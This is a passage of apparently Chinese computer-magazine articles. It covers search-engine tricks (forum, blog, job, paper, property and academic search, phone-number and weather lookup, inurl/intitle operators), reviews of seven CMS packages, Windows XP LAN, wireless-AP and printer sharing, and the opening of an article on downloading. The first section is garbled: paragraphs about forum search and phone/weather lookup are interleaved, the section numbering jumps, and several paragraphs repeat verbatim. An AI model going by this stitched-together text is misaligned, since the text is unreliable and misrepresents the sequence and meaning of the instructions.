下面，我们就以中搜论坛为例，看一下“传媒”的论坛搜索结果（图11）。

作为搜索引擎的一大绝活，查询天气情况变得前所未有的轻松。以前我们查询天气时总是关注一些天气预报的网站，然后找出所要查询的城市。可是这样一来就浪费了很多的精力和时间。常用的搜索引擎百度和Google都具有天气查询的快捷功能，我们只需要在百度关键字中输入“城市天气”，就可以直接得到想要的天气查询结果。我们以天津为例，在关键字中输入“天津天气”，单击回车键就可以得到天津的当日以及次日的天气情况了。

除了以上的专用论坛搜索引擎之外，我们还可以通过普通的搜索引擎轻松搜索到论坛内容、过滤掉其它信息。

如果选用Google搜索引擎的话，我们需要在关键字中输入“tq城市”，就可以得出结果了。比如输入“tq重庆”，点击“Google搜索”，就可以看到一个关于重庆天气预报的链接，点击链接打开后就会看到一个“中央气象台问天网”的网页。在这里不但可以看到重庆的当天天气预报，还能看到未来四天的天气情况。更为令人感动的是，它还附有生活指数、疾病指数和休闲指数三大方面的内容，实用性强，十分具有人性化的特点，为你的出行穿衣都带来很大的便利（图10）。

总而言之，有了搜索引擎，天气查询不再是难事！

#### 八、找适合你的特秀搜索引擎

搜索引擎为我们提供了“您要找的是不是”等类似的功能，因此即便是汉语拼音也能找到它相应的汉字表达。上图就是百度的这一功能体现。Google搜索引擎也有这一功能，而且即便是不准确的拼音表达也能联想到相应的汉字，应该说，它的拼音搜索功能更为强大。有了搜索引擎这个好助手，以后我们在进行汉字输入的时候就没有后顾之忧了。

针对不同的搜索喜好和特殊搜索需要，我们在搜索的时候总是希望能够将自己的搜索工作进行得更加专业和快捷，为生活带来高效。假如你要搜索一些求职的信息，那么在百度或者Google的关键字栏中输入“求职”，那么，相信有着亲身经历的人们都会有这样的感受，一些求职类网站、含有求职类字眼的网页、抑或是各种论坛、博客等信息都会接踵而至，因此我们不得不再进行人工的二次筛选，真的叫苦不迭。那么，除了大众搜索引擎，还有没有一些相应的专业的搜索引擎呢？其实，答案是肯定的，只是这些专业的东西我们平时很少接触到而已。有着不同的搜索需求，我们就应该选择不同的专业搜索引擎，这才叫量身定做，这也才叫百搜百灵验！

此外，中文拼音还有着它的独特之处，因为国内的很多网站为了方便记忆，往往使用中文拼音来为网站命名。因此在搜索网站的时候，我们就可以用一个特殊的搜索语句来进行，那就是inurl语句，这一语句与intitle语句有着类似之处，含义是在url地址中寻找要搜索的内容，即从字面的意思出发。比如我们想要查询一些Photoshop软件的使用技巧，在搜索引擎中输入关键字“Photoshop 技巧”，但是在搜索出来的结果中就会发现，它可能是真正的软件技巧，但也可能是类似本文的网页，只是在文中提到关于技巧的内容而已。因此，这样进行搜索，真是不被搞得晕头转向才怪。

我们把关键字改为“Photoshop inurl:jiqiao”进行搜索，搜索出来的结果保准你一百个满意，我们想要的内容一览无余。

- 推荐指数：★★★★★
- 实用指数：★★★★★
- 综合评定：★★★★★

由以上两个例子，我们不难看出，搜索引擎对于汉语拼音还是情有独钟的，无论是寻找汉字还是通过inurl语言搜索网页，都为搜索带来很大的帮助。

##### 1. 论坛搜索

##### 4. 号码、天气大探秘

相信我们每一个人都有浏览论坛的经历，应该说论坛是一个很好的交流园地，尽管大家不曾相识，但是却因为有着共同的爱好和专业、以及共同关注的内容而走在一起。很多论坛都有着固定的访问者，论坛上很多内容的探讨很有深度，很多学科的讨论也非常专业。甚至一些网友的经典文章我们无法在网页上找到，它们只在论坛中显身。因此很多朋友为了浏览论坛的一些信息不惜——打开各大论坛的首页，然后细心地寻找自己想要的内容，真是够辛苦！其实我们没有必要那么辛苦，一些专门用于论坛搜索的引擎就可以帮上你的忙。有了它们，搜索论坛就是小菜一碟了！

如今，一些不良分子利用手机短信或电话来进行犯罪，很多莫名其妙的短信发到你的手机上令人甚为不快，再加上一些陌生的未接电话号码，都打扰着我们正常而和谐的生活。有时候回复一个陌生的号码可能会使我们损失几百元，但是查询一个号码的途径往往不是那么方便，是去营业厅还是下载安装软件都很麻烦。

估计很少有人知道搜索引擎还可以查询号码归属地吧？搜索引擎的这个功能真的为我们带来了很多福音，我们只需要在关键字中输入所要查询的电话号码，单击回车键之后就可以在搜索结果中看到该手机号码归属地查询的链接，点击后就会出现归属地的查询结果了（图9）。

目前提供论坛搜索的引擎有Teein中文论坛搜索引擎（http://www.teein.com）、中搜论坛（http://bbs.zhongsou.com）和奇虎论坛社区搜索（http://search.qihoo.com）。这三个论坛搜索的引擎各具特色，要用哪一个还是你自己来选择吧！

比如你有一个未接电话的号码为13888888888，可是这个号码对你来说非常陌生，现在你就可以利用搜索引擎来查询一下这个号码的归属地点了。查询结果显示的归属地是云南昆明，如果你没有昆明的朋友的话，恐怕对是否进行回复这一问题上，你就要好好地斟酌斟酌了。

下面，我们就以中搜论坛为例，看一下“传媒”的论坛搜索结果（图11）。

作为搜索引擎的一大绝活，查询天气情况变得前所未有的轻松。以前我们查询天气时总是关注一些天气预报的网站，然后找出所要查询的城市。可是这样一来就浪费了很多的精力和时间。常用的搜索引擎百度和Google都具有天气查询的快捷功能，我们只需要在百度关键字中输入“城市天气”，就可以直接得到想要的天气查询结果。我们以天津为例，在关键字中输入“天津天气”，单击回车键就可以得到天津的当日以及次日的天气情况了。

除了以上的专用论坛搜索引擎之外，我们还可以通过普通的搜索引擎轻松搜索到论坛内容、过滤掉其它信息。

如果选用Google搜索引擎的话，我们需要在关键字中输入“tq城市”，就可以得出结果了。比如输入“tq重庆”，点击“Google搜索”，就可以看到一个关于重庆天气预报的链接，点击链接打开后就会看到一个“中央气象台问天网”的网页。在这里不但可以看到重庆的当天天气预报，还能看到未来四天的天气情况。更为令人感动的是，它还附有生活指数、疾病指数和休闲指数三大方面的内容，实用性强，十分具有人性化的特点，为你的出行穿衣都带来很大的便利（图10）。

总而言之，有了搜索引擎，天气查询不再是难事！

那就是使用论坛的特色标点法或者是组合关键字法。
一般的论坛中，版块的名称大都使用直行双引号『』，如『学习交流』等，因此我们在使用搜索引擎进行搜索的时候，就可以输入附带“『』”的关键字内容。（我们可以在微软拼音输入法状态下点击“功能菜单”中的“软键盘”，并选择“标点符号”选项，就可以在显示出来的软键盘中轻松找到直行双引号，点击“L”和“;”键就可以输出直行双引号了。）
借助中文符号支持较好的百度搜索引擎来搜索附带直行双引号的关键字，真的很轻松，搜索论坛手到擒来！

##### 2. 博客搜索

目前的博客文化越来越吸引人们的眼球，如果你想要搜索博客上的内容，就可以选择专门用于搜索博客的引擎。如：http://www.cnblog.org、http://www.feed-search.net、http://www.grass.org.cn等。值得一提的是，cnblog还提供了中文的心得集、中文blog目录集和weblog百科分类搜索等内容。搜索的条件多了，博客搜索的主动性也就更加的强大。
除此之外，我们还可以使用关键字组合的方法来进行博客内容的搜索，我们以“国庆节”为例进行博客搜索，不使用专门的搜索引擎也可以做到，即：采用“国庆节 inurl:blog”作为关键字进行搜索就没问题。
现在的你相信一定会发现，搜索博客竟也这么简单，那就赶快来试一下吧，精彩不容错过哦！

##### 3. 求职搜索

如果通过大众搜索引擎搜索一些求职类的网站，然后再寻找网站中适合的职位信息，这明显要花费两道工序。有的求职类网站甚至要注册为会员才可以浏览很多最新的信息，这的确是件很麻烦的事情。因此，为了找工作，单是坐在电脑前浏览各大求职网站就是一件很痛苦的事情。几个小时下来，工作没有头绪，眼睛和颈椎恐怕也要提出抗议了。因此，专门用于求职的搜索引擎就变得十分令人青睐了。具有Google风格的搜职网（http://www.globeHR.com）Logo就是一个很好的实例，无论是热门职业还是不同领域的分类职业都被归纳得一应俱全。它还分为职位搜索、高级搜索、校园搜索、课程搜索四大门类，在搜索结果中你还可以进一步选择想要的职位类型和工作年限，真的很方便。

##### 4. 论文搜索

相信很多人在搜索论文的时候，最常用的方法就是在大众搜索引擎中搜索有关论文关键字，或者通过搜索论文网站，在这些网站中搜索相应的专业论文资料。但是不得不承认这两种方法都不那么尽如人意和快捷，搜索的结果太多太混乱。那么，到底有没有专门用于论文搜索的方法呢？
答案当然是肯定的，且听我细细道来吧：我们都了解，一般的论文都有一定的格式，除了标题、正文、附录外，论文的最大的特色就是有关键词和摘要两个部分。因此，我们也可以说，“关键词”和“摘要”是论文资料的特征词汇，而论文的主题则通常会出现在网页的标题中。当然，我们也可以通过添加后缀名来查找论文。
因此在查找论文资料时，我们可以通过选用这样的关键字来进行搜索：
例如：“关键词 摘要 intitle: 电子商务”

##### 5. 房产搜索

对于有买房子欲望的人们来说，是不是你们每天都在东奔西跑地到处搜罗房产信息？是不是要一家一家地去售楼中心光顾呢？恐怕大多数人都是这样的一种状态，这样不仅花费了大把大把的时间，更是让自己精疲力竭。其实这些都是大可不必的，因为网络给我们提供了很多的方便。当然，对此观点有同感的年轻人也从没放弃过网络的协助作用，但是使用各个引擎搜来搜去，收集房产的信息也的确并不轻松，甚至会觉得还不如出门跑跑来得痛快。其实，对于房产的搜索，我们有专门的搜索引擎可以帮你走捷径，节省时间还能提高效率。
搜房引擎就是这样一个好的平台，通过这个搜索引擎你可以足不出户，就能得到最新最快的房产信息。该引擎的使用方法很简单，打开首页就会发现它设计得十分系统全面，你只需选择相应的房产类型，定制不同的地点、居室规格和价位，就可以轻松地找到房源信息。
我们以欲购买北京市西城区二居室70～100万元的二手公寓为例，用这一引擎搜索一下，看看其结果如何（图12）。

搜索结果如图12所示，它的分类十分清晰，信息也很全面，还提供参考用的地图，真是十分简洁和方便。

##### 6. 学术搜索

可能很多人都没听说过“学术搜索”这个概念吧？的确，即便是高校的学生，在搜集素材的时候恐怕也一直都是用百度或者Google来进行网页的搜索。其实，这样搜索的结果往往有很多冗余的成分，需要经过用户的精挑细选。其实，在搜索学术材料的时候根本不用这么麻烦的，我们常用的Google搜索引擎其实就是一个很好的助手，只是我们平常不太关注它的除了网页、图片、资讯以外的各项搜索服务而已。你只需点击Google首页的“更多”选项，就可以看到众多的搜索服务当中的“学术搜索”选项，点击进入就可以帮你轻松地搜索你想要的学术内容了。下面我们就来一起看看在学术搜索中搜索关键字“新闻文化”结果吧！
其实，专业的搜索引擎我们可以参考一下“中文搜索引擎指南网”，打开这个网页你会发现，它将不同的搜索需求进行了十分人性化的分类，让你想搜什么就搜什么。它的“搜索引擎及分类目录”（http://www.sowang.com/link.htm）将帮你带入一个理性的搜索领域。
综述：好了，说了这么多，我们也该休息一会了。尽管我们对网络搜索已经十分熟悉了，但殊不知，我们竟还有这么多不知道的搜索技巧。现在，还有谁敢说搜索引擎“笨”呢？恐怕是我们要好好地深入学习一下它们的用法才是啊。掌握了这些常用的技巧，相信以后你再用到搜索引擎的时候就不会像以前那样原始了吧？

### 网站建设不求人
——七款网站建设软件评比

◆文/TMGxy

引言：几年前，对于一个专业知识并不是非常熟悉的人而言，建立一个属于自己的网站可谓无法完成的任务。就算是专业站长，在对网站进行管理、更新或者扩充的时候也会觉得异常麻烦。然而如今，普通人无需学习复杂的建站技术和HTML，就能轻松构建一个风格统一功能强大的专业网站，而网站的后期工作也不再纷繁复杂。这一切，都要归功于一个专业的管理系统——CMS。

CMS (ContentManagementSystem) 意为“内容管理系统”，它的主要功能在于方便对各种网络编程语言并不是很熟悉的用户用一种比较简单的方式来管理自己的网站。CMS操作简易、流程完善、功能丰富，能够有效地解决用户网站建设与信息发布中常见的问题，满足大多数用户的需求，为用户提供了一个低成本、高效率、实时协作的网站建设方案。目前，网络上的CMS系统种类繁多，各路站长该怎样取舍呢？下面，就让我们一起了解一下。

#### 一、动易CMS

**人气指数：** ★★★★☆
**上手难度：** ★★★☆☆
**网站地址：** http://www.powereasy.net
**最新版本：** 动易eShop2007beta2
**软件大小：** 11.08MB
**收费情况：** 免费

PowerEasyCMS是动易网络科技有限公司基于ASP+COM技术独立开发的内容管理系统（如图1），是一个经过完善设计并适用于各种服务器环境的高效、全新、快速和优秀的网站解决方案，无论在稳定性、负载能力、安全保障方面都居国内外同类产品领先地位。

其人性化的设计理念，广泛适应企业、政府、学校等不同群体及个人的建站需要。PowerEasy已经成为国内最受欢迎的ASP内容管理系统。

功能强大是PowerEasyCMS的特点。前后台模板与数据相分离、完善的权限设定、高性能的品质、周详的用户消费和奖金明细、频道复制功能、商城静态生成功能、三级审核功能、稿费管理功能……这一系列根据用户需求而开发的功能，使PowerEasyCMS赢得了超过十万网站以上的用户规模。

同时，PowerEasyCMS的安全性也十分令人放心。该系统在用户资料存储和传递中，对密码全部进行MD5不可逆加密处理，有效保证系统及用户资料的安全。同时，它还为脆弱页面专门设计了防刷新系统，自动阻止恶意访问和攻击。应用于每一处代码中的安全检查，可自动屏蔽恶意攻击代码，从而全面防止SQL注入攻击、密码猜解、上传木马等各种攻击手段，最大程序地保证了系统的安全和稳定。其独有的全程操作记录功能，能够完整详细地记录系统的各种运行情况，让管理员对网站运行情况随时有据可查。

操作简单的PowerEasyCMS一直具有超高的人气。这款内容管理系统适合初级建站者用来建立小型网站和个人网站。

#### 二、织梦网站CMS

**人气指数：** ★★★★☆
**上手难度：** ★★★★☆
**网站地址：** http://www.dedecms.com/
**最新版本：** DedeCMSOX4.0
**软件大小：** 2MB
**收费情况：** 免费

DedeCMS是由“IT柏拉图”——林学编写的国内最知名的开源网站管理程序（如图2）。它以其优秀的性能、卓越的功能而深受广大站长喜爱，也因此成为最流行的内容管理系统之一。

这款内容管理系统最大的特点是开放源代码并且完全免费。它的模板标签简单易学，后台管理页面简洁实用，支持完全个性化开发的频道模型，还可以进行全站的内容搜索，可以满足大多数网站的应用需求。同时，该系统的功能模块扩张方便，支持各种模块插件。还具有数据一键备份、数据采集等非常实用的功能。其绝大多数用户都是个人站长。

DedeCMS4.0RC1是目前的最新版本。它重点增加了自由列表、反向通行证、后台界面更改三个功能，以适应项目大型化应用的便利性。除此之外，它还增加了重复文档检测功能，以及批量提取文章缩略图、数据库内容替换、随机模板防采集等辅助插件。DedeCMSOX4.0版具有更完善的树形菜单式的文档管理与发布方式，与栏目相关的地方大多用AJAX载入，更加实用。同时，它增加了会员点卡与会员时间限制功能，并提供部分网上支付接口；增加了会员数据导入与转换功能，允许DedeCMS会员系统使用不同的密码形式；系统配置参数分组，更具人性化；采集向导增加了即时测试列表和内容。新版增强各种操作的简便性，完善了很多地方细节功能，并且严格检查并限制了会员上传附件程序可能存在的安全问题，提高了安全性。

#### 三、帝国网站CMS

- 人气指数：★★★★☆
- 上手难度：★★★★★
- 网站地址：http://www.phome.net
- 最新版本：eCMS4.6正式版
- 软件大小：2.74MB
- 收费情况：免费

eCMS由帝国开发工作组独立开发，是一个经过完善设计的适用于Linux/Windows/Unix等环境下高效的网站解决方案（如图3）。由最初的eCMS1.0简体版到如今的eCMS4.6正式版，它一直以强大的功能与自主性赢得不少站长的偏好。

eCMS具有超强的系统模型扩展功能，它的卓越之处在于不仅提供了网站管理功能，而且还提供了系统扩展框架，用户通过此功能可以直接在后台扩展与实现各种系统，如下载、音乐、产品、房产、供求等等。此外，此功能还可将信息量分配于不同的信息表，为数据量较大的网站进行数据部署。与其他CMS相比，eCMS的自主性优势显而易见，它也因此而享有“万能建站工具”的美誉。

此外，eCMS还具有强大的信息采集功能。该系统无论是内置的系统模型还是用户自定义的模型都有自己相应的采集。自动化内容采集的支持，大大降低了内容维护的工作量，并让网站管理系统与企业的其它信息化系统无缝集成，提高了信息的利用率。

#### 四、风讯网站CMS

- 人气指数：★★★☆☆
- 上手难度：★★★★★
- 网站地址：http://www.foosun.net
- 最新版本：FooSunCMS4.0sp5完整版
- 软件大小：6.87MB
- 收费情况：免费

FooSunCMS是国内领先的第一款集成Web2.0元素的、模块化的、开源的CMS建站系统，包含13个子系统（如图4）。FooSunCMS包括了信息采集、整理、分类、审核、发布和管理的全过程，具备完善的信息管理和发布管理功能。同时，其特别优化的模块化体系结构，强大的HTML静态生成功能，便捷的后台管理等特点都突出了FooSunCMS自由度极高、以人为本的设计理念。此款CMS是企事业单位网站、内部网站和各类ICP网站内容管理和维护的理想工具。

在CMS产品领域里，FooSunCMS已形成CMS整站解决方案。从“风讯网站内容管理系统” FooSunCMS0410版到今天的“风讯网站内容管理系统” FooSunCMS4.0版，系统经过多次飞跃性发展，在原有的FooSunCMS系列优势上取得重大突破，更加简易化、人性化，更加符合广大用户的需求，从而使得网站的架设与管理变得更加轻松。

#### 五、PHPCMS

- 人气指数：★★★☆☆
- 上手难度：★★★☆☆
- 网站地址：http://www.phpcms.cn
- 最新版本：2007正式版
- 软件大小：5.69MB
- 收费情况：免费

PHPCMS是一款由PHP+MYSQL构架的网站内容管理软件（如图5），是由文章、下载、图片、分类信息、影视、商城、采集、财务等20多个功能模块组成的强大、易用、可扩展的网站管理软件。其功能覆盖面广、扩展性强、负载能力好、模板调用灵活，因此不仅适合于建设一般企业、政府、学校、个人等小型网站，同时也适合于建设地区门户、行业门户、收费网站等大中型网站。

PHPCMS采用模块化开发，可自由安装和卸载，并提供程序源代码和模块开发文档，功能可扩展，使用更方便。用户不仅可以根据自身需要选择安装模块，也可以根据开发文档自行开发模块满足个性化需求。

PHPCMS2007实现了“网站模板与程序完全分离”，推出了“模板方案”概念，独创“中文标签跨模块调用”和“JS跨站调用”，支持不同频道、栏目、专题、内容应用不同的模板，可一键切换预设的模板方案更换网站界面。

PHPCMS用户可以发布自己制作的模板，也可以下载安装分享他人的模板。

同时，PHPCMS用户还可根据需要基于文章、下载、图片、信息、影视五大功能模块创建新的频道，支持频道绑定独立域名、数据分表存储、自定义子段、后台按频道分级管理，可帮助用户轻松建立大型站点。在同样的软硬件环境下，PHPCMS2007的数据容量是其他CMS的N倍（N为频道数量），大数据量情况下表现更佳。

除了以上的介绍外，PHPCMS还具有以下特点：支持自定义字段，满足个性化需求；支持在线支付、充值卡、财务记录、消费记录，支持内容访问权限控制和内容收费；可整合各种主流论坛、博客和商城以及防盗链软件，帮助用户轻松实现“CMS+论坛+博客+商城”的多功能门户方案；支持一键导入MySQL、MSSQL或Access数据库的文章和会员数据，轻松实现网站平台迁移；支持文章内容存文本；支持按栏目、类别、专题三种方式归类；支持推荐位功能；支持UTF-8编码和语言包，可建设国际化站点；支持PHP动态发布或HTML静态发布，支持URL规则DIY；多级管理权限控制，让网站多人维护更轻松；多重安全机制和权限控制，为网站安全保驾护航。

#### 六、SupeSite/X-Space

- 人气指数：★★★☆☆
- 上手难度：★★☆☆☆
- 网站地址：http://www.x.discuz.net
- 最新版本：SupeSite5.5.5/X-Space3.0.5正式版
- 软件大小：23.55MB
- 收费情况：免费

SupeSite/X-Space是一套使用跨平台的PHP语言和MySQL数据库构建的社区门户解决方案包（如图6）。通过安装使用SupeSite/X-Space，网站建设者可以轻松、迅速、高效地构建拥有高度Web2.0特性的社区门户，为站点的会员提供包含日志、影音视频、群组、相册图片、商品买卖、软件分享、书签收藏等在内的全方位的Web2.0服务。

SupeSite/X-Space使用了独创的高速数据缓存技术，使页面数据库查询数极低，并采用缓存异步时间更新机制，从而大大降低MySQL的负载，提高站点访问速度和高负荷的承载力。我们知道，传统站点发布系统需要管理员定期进行后台操作才能批量操作站点HTML化。然而，SupeSite/X-Space的页面自动生成技术，打破了这一弊端，实现了HTML自动生成、定期更新，并通过自身带有的SiteMap和面向SEO优化的页面功能，可以让使用者站点的搜索量、负载量获得质的飞跃。

#### 七、KingCMS

- 人气指数：★★★★☆
- 上手难度：★★☆☆☆
- 网站地址：http://www.kingcms.com
- 最新版本：KingCMS5.0.0.1010
- 软件大小：941.38KB
- 收费情况：免费

KingCMS是一款小巧、高效、人性化的开源内容管理系统，基于ASP开发，支持MSSQL和Access数据库（如图7）。

它的整个软件大小还不到1MB，系统安装包也只有一个“admin”文件夹，部署相当简单快速，前端文件全部经模板处理后生成，可以做到单模板网站。此外，全站生成真正静态的HTML文件，不仅是内容页面，导航也是静态HTML页面，极大地降低了服务器的压力。它基于XML空间样式的标签，调用简单，调用样式随意自如。

KingCMS支持多种浏览器及小屏幕，如IE5.5+、FireFox1.0+、Mozilla1.3+和Netscape7+等，就算在“老爷机”上维护网站也不成问题。它还支持多国语言，其系统和语言包的分开设计，可以支持或自行扩展任何语言界面，不仅前台不同的栏目指定不同的语言，管理员和用户界面也可以根据需要设置界面语言，使用起来非常方便。KingCMS可以让用户定义关键词库，自动或手工插入关键字，自动插入页面Description，自动生成站点地图及GoogleSiteMaps文件等面向搜索引擎的优化；只需在标签中指定图像大小，就能自动生成任意尺寸的缩略图；操作和生成分离。同时，它真正的完全模块化方式和完善的类库支持，使得进一步扩展功能和二次开发更加得心应手。

KingCMS的会员及管理员密码采用动态32位MD5加密，cookies输出的密码值和数据库中的密码不一致，安全性更高，并可支持导入16位MD5加密的会员系统。此外，它的验证码是基于aspjpeg图像功能，经过几十次运算后生成出来的，图像十分复杂，能够有效地杜绝恶意注册软件，很大程度上保障了网站的安全性。

### 独乐乐不如众乐乐，今天你共享了吗？

文/庄浩罡

共享就是共同分享，共享是一种精神，更是一种美德。在网络越发缤纷之际，你的爱机中肯定有很多别人没有的珍藏宝贝，如果与朋友共享，那么朋友们肯定会十分高兴；当然，如果朋友们的电脑中有好东西也拿出来与你分享，你是否同样会感到快乐呢？这只不过是常见的文件共享，其实还有很多很多的共享，能让我们彼此快乐，下面就让我们共同见证各类共享的全记实！

#### 共享无界——局域网文件共享

局域网（Local Area Network）是在一个局部的地理范围内（如一个学校、工厂和机关内），将各种计算机、外部设备和数据库等互相联接起来组成的计算机通信网，简称LAN。它可以通过数据通信网或专用数据电路，与远方的局域网、数据库或处理中心相连接，构成一个大范围的信息处理系统。也就是说，在相邻的计算机中，获取我们需要的资源。

现在的局域网真是普及，无论是公司或者是家庭，随便几根网线，一个集线器就可以搭建一个局域网（如何搭建局域网不在本文讲述范围），那么如何在局域网中共享其资源呢？

- 第1步：进入到“网上邻居”，选择左侧的“设置家庭或小型办公网络”选项，或者双击运行“无线网络安装向导”选项（如图1）。连续两次点击“下一步”按钮，即可进入到“选择连接方式”窗口。



- 第2步：根据各自的网络情况选择，如果用户的计算机是通过其他计算机共享上网的，只要选择第二项即可；如果是直接连入互联网的，只要选择第一项即可。单击“下一步”，系统要求我们选择连接方式，因为笔者计算机是通过无线方式上网的，大家只要根据自己的情况选择即可。
- 第3步：单击“下一步”按钮，按要求输入相关计算机描述，和计算机名信息即可（该信息就是局域网中其他计算机访问时可以看到的名称等）。单击“下一步”，在工作组名称中，要求局域网内需要设置共享的所有计算机都要保持一致，再单击“下一步”按钮，进入到“文件和打印共享”窗口，选择第一项“启用文件和打印机共享”选项即可，最后连续单击“下一步”按钮，向导就会自动配置网络参数了，在向导的最后一步中选择已有的网络磁盘项，并单击“确定”按钮即可完成网络的配置了。

小贴士 如果Windows XP默认的共享方式不能满足我们的需求，我们也可以进一步控制共享。双击“控制面板”中“文件夹选项”，然后在打开的窗口中选择“查看”选项卡，并取消选择“使用简单文件共享”选项，单击“确定”保存（如图2）。这时再用鼠标右击你需要共享的文件夹，选择弹出的快捷菜单中的“共享和安全”项，打开“共享和安全”窗口。如果想让所有可以访问自己计算机的用户访问该文件夹，只要选择“共享此文件夹”选项，并单击“确定”按钮即可。如果还要更进一步地对该文件夹进行权限配置，只要单击“权限”按钮，并在打开的“权限”窗口进行设置即可。默认是所有用户，只要将“Everyone”用户删除，然后通过单击“添加”按钮，即可添加我们允许访问的用户。接下来在下面的权限列表中即可设置其享有对该共享文件夹的处理权限了。最后单击“确定”按钮保存退出即可。



- 第4步：重新启动系统即可生效。用鼠标右键单击需要共享的文件夹，并选择弹出菜单中的“共享和安全”选项，即可打开“属性”窗口。勾选其中的“在网络上共享这个文件夹”选项，再设置一个共享名即可完成共享该文件夹了。如果同意其他人编辑自己的共享文件，只要选择“允许网络用户更改我的文件”选项即可。

除了上面提供的快速访问局域网内共享文件夹，其实我们还可以通过Web共享的方式来快速访问对方的文件夹。Web共享，就是通过Web形式访问局域网内的共享资源。也就是说，局域网内某个用户将指定的文件夹设置为Web共享后，局域网内的其他用户就可以在IE中输入对方IP地址和Web共享文件夹名称来快速访问对方共享资源了。

- 第1步：首先需要安装IIS，安装时在“控制面板”中打开“添加/删除程序”对话框并切换到“添加/删除Windows组件”项，勾选其中的“Internet信息服务（IIS）”项，随后将该项进行安装即可。记得要在光驱中放入Windows安装光盘。
- 第2步：IIS安装后，右键单击需要共享的文件夹我们可以发现“文件夹属性”对话框中多出一个“Web共享”标签项。如果没有看到“Web共享”标签项，我们可以在文件夹中单击“工具→文件夹选项”，打开“文件夹选项”对话框，在“查看”标签项下将“使用简单文件共享(推荐)”项前面的勾去掉，确定后即可显示Web共享标签项了。在此切换到“Web共享”标签项中，首先单选“共享文件夹”选项，随后弹出一个“编辑别名”对话框，在“别名”项中输入该文件夹在局域网中显示的名称，在“访问权限”中系统提供了读取、写入、脚本资源访问、浏览目录四个多选项，建议勾选“读取”项，其他选项可根据需要选择。在“应用程序权限”中选项“无”，随后确定退出。
- 第3步：设置后，在该局域网其他计算机的IE地址栏中输入该计算机的IP地址和这个共享文件夹名称（如 http://192.168.1.25/我的共享），回车后就能看到该文件夹中的所有内容，并显示出该所有文件创建的时间。我们还可以单击该文件夹中标有<Dir>字样的链接，访问下一级文件夹中的内容，用鼠标单击当前的某个文件即可启动相应的程序打开，如果要想将某一个文件保存到自己的计算机中，我们可以单击右键选择“另存为”即可。

#### 无线也无线——无线共享

如果家中有两台计算机，有一台普通路由器，而且想实现无线上网，或者无线游戏的时候，我们该怎么办呢？其实很简单，花少许的钱购置一个无线AP发射器，这样你想无线上网的梦想就可以被实现了。它的工作原理是这样的（如图3）。



首先到电脑市场挑选一款合适的无线AP，因为无线AP市场竞争相对较小，所以价格方面自然会相对较高，大家可以根据自己的需求与购买能力来决定。无线AP具有桥接、WDS等功能，在扩大网络范围的方面非常有优势。所以许多追求完美的朋友或者不想废弃原来路由器的朋友，都会购买无线AP插在路由器的后面，让它们各司其职，各尽所能。

购买到合适的无线AP之后，首先将产品进行安装调试，连接完成之后，我们还需要对无线AP进行简单的配置。在浏览器里输入“192.168.1.1”，回车之后，就会弹出登录对话框，在用户名和密码框中分别输入Admin，确定之后即可进入到无线AP的设置界面，界面简洁明快，虽然都是英文的，但还都比较简单。一些常用的功能一看就会用了。其中支持WEP加密、MAC绑定等常用的安全设置。

在“Operation Mode”选项后面，我们需要选择“mixed”选项，这样才能兼备802.11b和802.11g；在“Authentication Method”选项后面，如果保持默认的“Open System or Shared Key”选项，则表明该范围内的任何无线设备，都可以接收AP信号，当然，如果用户有需要，可以选择下面的“Shared Key”或者“WPA-PSK”选项来对我们的AP进行加密设置（如图4）。还有就是在“Ethernet Interface”功能设置部分，我们可以选择“Enable DHCP”选项让主机自动给WL-330g分配IP地址和子网掩码等。不过，通过“Use the following IP Setting”选项来自己设定IP地址，子网掩码和网关地址的话也可以。之后，点选“Apply”保存退出即可。其余设置保持默认即可。



经过简单的设置之后，我们的无线AP就开始发挥其功效了，我们的无线网络就搭建成功了。接下来我们就可以通过无线共享上网了。

单纯型AP比较适合于有线网络已经比较健全仅仅需要扩展无线功能的用户。选购的时候应该注意：同时接入的最大用户数以及数据的转发延时。质量较好的AP可以做到近似忽略的延时以及30个以上并发用户的使用；还有就是要注意产品功率的大小。功率太小，则无线网络的信号覆盖范围和传输稳定性较差，功率过大，则会对人体产生不利的影响。国际标准综合考虑了在对人体无害基础上，将信号最强的功率定为100毫瓦，AP的功率越接近这个数值则越好；除此之外，设备管理的便利性和天线的可拆卸性。对于家庭和SOHO用户，AP使用的方便性十分重要，可拆卸的天线便于用户更换增益天线，而且不用的时候可以收起来。此方案适合手中有路由器，而非无线路由器的多机电脑用户。毕竟普通无线路由器也是路由器，同样是用钱买来的，丢掉了必然会觉得浪费可惜。于是只能为其添加无线AP，这样做的唯一好处就是不让原有的路由器下岗，而且以后添置了无线产品也可以继续使用通过AP与路由器搭建的无线网络，不过设置起来并不是十分轻松。

#### 你有我有全都有——打印机共享

虽然说现在的办公产品是越来越便宜，但也没有必要人手一台，有了一台大家共享使用，才能发挥办公产品的真正效用，接下来就让我们一同来学习如何对打印机进行共享操作。

- 第1步：在控制面板中双击“打印机和传真”图标，然后在欲共享的打印机上单击鼠标右键，并选择“共享”命令即可，接下来在“共享名”中输入一个好记的名称，再单击“确定”按钮即可完成。
- 第2步：在局域网内的其他计算机中，如果要使用我们的打印机，还需要进行相关的设置才可以实现共享。在打开的“打印机和传真”窗口中单击鼠标右键，并选择其中的“添加打印机”命令，在打开的向导窗口中，单击两次“下一步”按钮继续设置。
- 第3步：在窗口中选择“网络打印机或连接到其他计算机的打印机”项，再单击“下一步”按钮，选择“浏览打印机”项，单击“下一步”按钮之后，系统就会自动从“网上邻居”中搜索所有共享打印机，然后将搜索到的打印机安装上即可完成。

温馨提示：假如你安装了几个打印机的话，如果你只使用某台打印机，最好在“打印机和传真”窗口中右击该台打印机，选择弹出的快捷菜单中的“设为默认”将其设置为默认打印机。

总结：其实共享的资源有很多，共享的方式也有很多，只要大家善于发现，共享其实是很快乐的事情，比如在我们最常用到的QQ和MSN上，都可以实现共享操作。怎么，你还不知道？赶快自己动手试试吧！

### 准确、快捷——网络资源巧下载

◆文/庄浩罡

网络资源五彩缤纷，资源共享无限。如今上网冲浪，除了查阅最新最快的信息之外，各种资源的下载也别有一番风味。也许大家感觉很诧异，不就是下载吗？其实除了大家所熟知的HTTP、FTP，以及BT等下载方式之外，还有很多其它的下载方式等着我们。如果你还仅限于常规下载方式，那么请往下看。

#### 一、HTTP和FTP——常规下载

HTTP协议的全称是“Hypertext Transfer Protocol”，中文意思为“超文本文件传输协议”，是用于从服务器传输超文本到本地浏览器的协议。我们在网上浏览的以“http://” 开头的网页所用的协议就是它了。FTP是“File Transfer Protocol”的缩写，意思是“文件传输协议”。如其名所示，FTP的主要作用是让用户登录到远程计算机上，对文件进行上传或者下载等操作（如图1）。



